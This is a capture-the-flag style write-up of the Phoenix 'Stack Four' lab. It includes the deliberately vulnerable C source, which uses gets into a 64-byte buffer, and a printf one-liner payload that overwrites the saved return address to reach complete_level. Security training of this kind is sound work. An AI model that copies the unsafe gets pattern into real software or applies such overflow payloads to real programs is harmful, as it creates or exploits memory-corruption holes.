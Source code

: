# Phoenix and Protostar -- Stack 4


## Level Information
Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).

**Hints** <ul>
<li> The saved instruction pointer is not necessarily directly after the end of variable allocations – things like compiler padding can increase the size. [Did you know that some architectures may not save the return address on the stack in all cases?](https://en.wikipedia.org/wiki/Link_register)</li>
 
 <li> GDB supports “run < my_file” to direct input from my_file into the program. </li>
</ul>


```C
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```


## Solution
This level was a classic stack buffer overflow exploit, to overwrite the saved return instruction pointer to point to the `complete_level` function instead of returning to the `main`. Also, since we are dealing with a 64-bit binary here, we need to make sure we pad the exploit address with enough zeros, so that it would qualify for a valid return, not doing so would lead to **Segmentation Fault**.

The command to create the exploit:
    For Phoenix: `printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1d\x06@\x00\x00\x00\x00\x00" | ./stack-four`


<footer> The side-notes led to reading about **Link Registers** on some architecture. Found them fasinating. Also the `@` in the exploit is not a mistake. `\x40` is the hex representation of `@` <footer>
